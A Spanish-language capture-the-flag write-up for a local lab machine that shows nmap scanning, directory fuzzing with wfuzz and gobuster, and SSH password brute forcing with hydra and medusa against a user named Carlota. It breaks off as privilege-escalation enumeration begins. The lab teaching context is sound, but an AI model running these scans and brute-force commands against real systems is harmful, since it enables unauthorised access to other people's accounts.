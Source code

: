 
> Habilidades: Enumeración, steganografía, escalada de privilegios (linux)


# RECONOCIMIENTO
_____________________________________________________________________________________________________________________________________________________________________

## Nmap Scan
_____________________________________________________________________________________________________________________________________________________________________
Realizamos el primer sondeo a la ip de la victimma para averiguar que puertos están abiertos:

~~~ bash
nmap --open -p- -n -sS -Pn $ip -oG FirsScan
~~~

![Primer_Escaneo](https://i.imgur.com/NssolyM.png)

- `--open`: Nos muestre los puertos abiertos.
- `-p-`: Escanear todo el rango de puertos (65535)
- `-sS`: Escaneo TCP SYN, técnica más sigilosa para determinar el estado del puerto.
- `-n`: No aplicar resolución DNS.
- `-Pn`: Deshabilitar el descubrimiento de host, asumiendo que el objetivo se encuentra activo.
- `-oG`: Exportar el escaneo a un formato `Grepable`, util para extraer información.

_____________________________________________________________________________________________________________________________________________________________________

### Enumerar Servicios
_____________________________________________________________________________________________________________________________________________________________________
Realizamos enumaeración a los puertos abiertos.
~~~ bash
nmap -sVC -p 22,80 172.17.0.2 -oN ServicesScan
~~~

![Escaneo_Sevicios](https://i.imgur.com/6ybGn1A.png)
- `-sC`: Ejecuta scripts NSE (Nmap Scripting Engine) predeterminados.
- `-sV`: Detecta la versión del servicio que se está ejecutando en cada puerto abierto.
_____________________________________________________________________________________________________________________________________________________________________

## Http Service
_____________________________________________________________________________________________________________________________________________________________________

Vemos el puerto `80` que corresponde a un servicio `http`, veamos que hay en él. Podemos usar la herramienta `whatweb` para listar las tecnologías detectadas en el servidor. (Como alternativa, puedes usar la extension de navegador Wappalyzer)

~~~ bash
whatweb http://172.17.0.2
~~~

![whatweb](https://i.imgur.com/iz3f6TK.png)

Abrimos en navegador y vamos a dicha web, leemos y podemos ver algo interesante, una nota de `Carlota`.
Yo siempre reviso view-source de la web por si se me escapa algo interesante.
![despido](https://i.imgur.com/JTVpkU4.png)

_____________________________________________________________________________________________________________________________________________________________________

## Fuzzing

_____________________________________________________________________________________________________________________________________________________________________

El siguiente paso será intentar descubrir posibles directorios, podemos usar cualquier herramienta de fuzzing, yo usaré `wfuzz` y `gobuster`

### Wfuzz
~~~ bash
wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 http://172.17.0.2/FUZZ
~~~

![wfuzz](https://i.imgur.com/GEns8Jg.png)

- `-c`: Formato colorizado
- `--hc=404`: Ocultar el código de estado 404 (Not Found)
- `-w`: Especificar un diccionario de palabras
- `-t 200`: Dividir el proceso en 200 hilos, agilizando la tarea


### Gobuster

~~~ bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
~~~

![gobuster](https://i.imgur.com/qsO45ms.png)

- `dir`: Modo de descubrimiento de directorios y archivos
- `-u`: Dirección URL
- `-w`: Diccionario a usar
- `-t 200`: Establecer 200 subprocesos 

Podemos ver que en ambos casos no se ha descubierto ningun directorio. :(
_____________________________________________________________________________________________________________________________________________________________________

## Fuerza Bruta
_____________________________________________________________________________________________________________________________________________________________________
Como obtuvimos dos nombres anteriormente, vamos a intenta hacer fuerza bruta con uno de ellos. En este caso usaremos dos herramientas diferentes aunque con el mismo resultado.

~~~ bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt -t4 ssh://172.17.0.2
~~~

![hydra](https://i.imgur.com/gHUFhTq.png)


- `-l`: Especifica un nombre.
- `-P`: Especifica una lista de palabras.
- `-t4`: Especifica hilos a usar. (más rapido)
- `ssh`: Especifica el protocolo.

~~~ bash
medusa -h 172.17.0.2 -u carlota -P /usr/share/wordlists/rockyou.txt -M ssh -t 4
~~~
![gobuster](https://i.imgur.com/phRZEFc.png)

- `-h`: Especifica la dirección IP del objetivo.
- `-u`: Especifica el nombre de usuario a probar.
- `-P`: Especifica el archivo de lista de contraseñas a utilizar.
- `-M`: Especifica el módulo a utilizar, en este caso SSH.
- `-t 4`: Especifica el número de hilos a utilizar para agilizar el proceso.

__¡¡BINGO!! obtuvimos las credenciales de Carlota.__

_____________________________________________________________________________________________________________________________________________________________________
# Escalada de privilegios
_____________________________________________________________________________________________________________________________________________________________________

Una vez tenemos acceso, tratamos la TTY para poder usarla comodamente, para esto cambiaremos el valor de la variable `$TERM`. En este caso, nuestra shell (SSH) ya es interactiva, solo necesitaremos export TERM=xterm.

~~~ bash
> control Z
stty raw -echo; fg
reset xterm
export TERM=xterm
stty size
stty rows 44 columns 184


~~~

## Enumeracion entorno

Primeramente veremos si tenemos privilegios `sudo` con el siguiente comando:

~~~ bash
sudo -l
~~~

![sudo -l]()

A continuación, intentar enumerar todo lo que los privilegios del usuario pueda. Si a primera vista no enconramos nada, habría que hacerlo mediante comandos.
Este caso observamos un archivo sospechoso, antes de seguir buscando vamos a analizar el archivo.
